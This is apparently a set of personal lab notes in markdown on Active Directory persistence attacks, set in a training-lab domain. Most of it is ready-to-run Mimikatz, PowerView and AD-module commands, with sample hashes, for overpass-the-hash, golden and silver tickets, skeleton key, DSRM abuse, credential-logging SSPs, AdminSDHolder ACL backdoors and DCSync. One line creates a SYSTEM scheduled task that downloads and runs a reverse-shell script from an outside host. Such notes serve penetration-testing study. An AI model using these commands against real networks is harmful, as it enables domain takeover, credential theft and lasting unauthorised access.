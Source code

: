 # Persistence
> test

## Over Pass The Hash
PTH with mimikatz --> perform activities as the hash but Windows still think I am the same person
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```

## Golden ticket
Create Golden Ticket -> need krbtgt hash
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
## Silver Ticket
Use hash of service account - In this case dcorp-dc$
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'
```


## Avaiable services
>image form [Hacktrick](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)

![Avaiable services](./images/services.png)

CIFS service (CIFS)
```powershell
ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```
wmi service (HOST + RPCSS)
```powershell
.\PsExec.exe \\dcorp-dc.dollarcorp.moneycorp.local ipconfig
```
Scheduled Tasks (HOST)
```powershell
# Check Access
schtasks /S dcorp-dc.dollarcorp.moneycorp.local
# Create
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
# Run
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```
to do
- add other services


## Skeleton key
Inject skeleton key
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```
Access any computer as any user on the domain using password **mimikatz**
```powershell
Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Credential dcorp\administrator
```
In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:
```mimikatz
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```
Note that above would be very noisy in logs - Service installation (Kernel mode driver

## DSRM
Dump DSRM password (needs DA privs)
```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```
output form command above - Hash NTLM is DSRM password
```
RID  : 000001f4 (500)
User : Administrator
Hash NTLM: a102ad5753f4c441e3af31c97fad86fd
RID  : 000001f5 (501)
User : Guest
```
we can pass this hash to authenticate, but we need to change the configuration first
```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```
Then you can (over) pass the hash using mimikatz
> note that the "domain" used is just the name of the DC machine unlike other PTH
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd  /run:powershell.exe"'
```
After PTH you coul access to share or remote code exection like WMI

## Custom SSP
there are 2 ways to exploit this
1. Drop the mimilib.dll to system32 and add mimilib to **HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security** Packages:
```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name'Security Packages' -Value $packages
```
2. Using mimikatz, inject into lsass (Not stable with Server 2016):
```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```
Then, All local logons on the DC are logged to 
**C:\Windows\system32\kiwissp.log**

## ACL
### AdminSDHolder
> AdminSDHolder - Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL. 

#### 1. Add ACL
Add FullControl permissions for a user to the AdminSDHolder:
```powershell
# PowerView
Add-ObjectAcl -TargetADSprefix'CN=AdminSDHolder,CN=System' -PrincipalSamAccountNamestudent1 -Rights All -Verbose

# AD Module
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```
Other interesting permissions (ResetPassword, WriteMembers) for a user
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights ResetPassword -Verbose

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights WriteMembers -Verbose
```

#### 2. Run SDProp
Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```
For pre-Server 2008 machines:

```powershell
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

#### 3. Checking

```powershell
# PowerView
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'student1'}

#ActiveDirectory Module
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'}
```

#### 4. Abuse Full Control
Add member
```powershell
# powerveiw_dev
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

#ActiveDirectory Module
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```
reset password
```powershell
# powerveiw_dev
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

#ActiveDirectory Module
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

### Right Abuse
> same as AdminSDHolder but I'am add item directly to the domain.
Add FullControl rights
```powershell
#Using PowerView:
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student1 -Rights All -Verbose 

#Using ActiveDirectory Module and Set-ADACL:
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```
Add rights for DCSync
```powershell
#Using PowerView:
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student1 -Rights DCSync -Verbose

#Using ActiveDirectory Module and Set-ADACL:
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -GUIDRight DCSync -Verbose
```
Execute DCSync:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```